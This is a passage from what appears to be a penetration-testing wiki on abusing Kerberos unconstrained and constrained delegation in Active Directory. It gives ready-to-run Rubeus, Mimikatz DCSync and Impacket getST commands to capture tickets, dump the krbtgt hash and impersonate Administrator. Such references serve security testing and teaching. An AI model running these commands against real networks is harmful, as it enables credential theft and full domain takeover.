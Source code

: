 ```bash
Rubeus.exe monitor /interval:5
```

Once the monitor is ready, a [forced authentication attack](../forced-authentications/) \(e.g. [PrinterBug](../forced-authentications/#ms-rprn-abuse-a-k-a-printer-bug), [PrivExchange](../forced-authentications/#pushsubscription-abuse-a-k-a-privexchange)\) can be operated. Rubeus will then receive an authentication \(hence a TGS, containing a TGT\). The TGT can be used to request a TGS for another service.

```bash
Rubeus.exe asktgs /ticket:$base64_extracted_TGT /service:$target_SPN /ptt
```

Once the ticket is injected, it can natively be used when accessing a service, for example with [Mimikatz](https://github.com/gentilkiwi/mimikatz) to extract the `krbtgt` hash.

```bash
lsadump::dcsync /dc:$DomainController /domain:$DOMAIN /user:krbtgt
```
{% endtab %}
{% endtabs %}

### Constrained Delegations

If a service account, configured with constrained delegation to another service, is compromised, an attacker can impersonate any user \(e.g. domain admin\) in the environment to access the second service.

* If the service is configured with constrained delegation **without protocol transition**, then it works similarly to unconstrained delegation. The attacker controlled service needs to receive a user's TGS in order to  use the embedded TGT as an identity proof. "Without protocol transition" means the Kerberos authentication protocol needs to be used all the way.
* If the service is configured with constrained delegation **with protocol transition** then it doesn't need that user's TGS. It can obtain it with a S4U2Self request and then use it with a S4U2Proxy request. The identity proof can either be a password, an NT hash or an AES key.

Once the final "impersonating" ticket is obtained, it can be used with [Pass-the-Ticket](pass-the-ticket.md) to access the target service.

{% tabs %}
{% tab title="UNIX-like" %}
The [Impacket](https://github.com/SecureAuthCorp/impacket) script [getST](https://github.com/SecureAuthCorp/impacket/blob/master/examples/getST.py) \(Python\) can perform all the necessary steps to obtain the final "impersonating" TGS \(in this case, "Administrator" is impersonated/delegated account but it can be any user in the environment\).

The input credentials are those of the compromised service account configured with constrained delegations.

```bash
# with an NT hash
getST.py -spn $Target_SPN -impersonate Administrator -dc-ip $Domain_controller -hashes :$Controlled_service_NThash $Domain/$Controlled_service_account

# with an AES (128 or 256 bits) key
getST.py -spn $Target_SPN -impersonate Administrator -dc-ip $Domain_controller -aesKey $Controlled_service_AES_key $Domain/$Controlled_service_account
```
